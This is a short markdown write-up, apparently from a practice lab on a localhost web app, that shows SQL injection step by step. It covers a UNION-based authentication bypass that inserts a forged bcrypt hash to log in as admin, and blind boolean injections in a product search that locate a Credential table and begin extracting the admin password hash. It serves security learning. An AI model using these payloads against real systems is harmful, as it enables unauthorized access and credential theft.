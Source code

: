 ## SQL Injection

### Preparation

We will exploit `Login` first

![img_1.png](img_1.png)

Go to hack `http://localhost:3000/page-login` :))

![img_2.png](img_2.png)

![img_3.png](img_3.png)

=> Maybe `or` is in blacklists

Test `admin' where '1'='1`

![img_4.png](img_4.png)

=> Error => using `prisma.$queryRawUnsafe()` => a vulnerable function

Test with `union`

I guess they query 3 columns

username: `123' union select null, null, null where '1'='1`

![img_5.png](img_5.png)

=> union select 4 and 5 columns => same error => 6 columns

![img_6.png](img_6.png)

error: `data and hash arguments required`

So we detect type of columns

`123' union select 1, 2, 3, null, null, null where '1'='1`

![img_7.png](img_7.png)

We test 'a' in column 3,4,5,6

Test...test...test

![img_8.png](img_8.png)

=> column 1,2 is integer, 3,4,5,6 is String

Test which column is username, password, email

I test column 3 is username, 4 is email, 5 is password, 6 is role
column 1 is id

This is source code, they get username first, and compare password (hash by bcrypt)
![img_9.png](img_9.png)

=> We can create a suitable password, we inject in username a hash password, and password field we inject a plain password

Go to `https://bcrypt-generator.com/` type `admin` and choose 10 rounds

![img_10.png](img_10.png)

copy hash password

username: `123' union select 1,2,'admin','hao@gmail.com','$2a$10$U84XDh.Y6UABwjfhAzNiGu3l/kZRPj5IRrRTDypA/bcSNpUpJtu8W','admin' where '1'='1`
password: `admin`

=> Login success


### Blind SQLI

Blind SQLI in search feature

![img_11.png](img_11.png)

We search `A`:

![img_12.png](img_12.png)

`Q`:

![img_13.png](img_13.png)

=> (YES/NO) product

__Detect SQL Injection__

`http://localhost:3000/product/search?name=Q' or 1=1--`

![img_14.png](img_14.png)

=> Found all products

__Exploit SQL Injection__

To exploit, we proceed to find the table have credential information. In this case, we found Credential table by the payload `a' OR (SELECT 'a' FROM "Credential" LIMIT 1)='a`. The response is Found product! mean that is a true query and the table Credential is existed.

We detect user `admin`: ``

`a' OR (SELECT 'a' FROM "Credential" where username = 'admin' LIMIT 1)='a'--`

Find hash password: 

`a' OR (SELECT 'a' FROM "Credential" where username = 'admin' and length(password) > 1 LIMIT 1)='a'--`

![img_15.png](img_15.png)


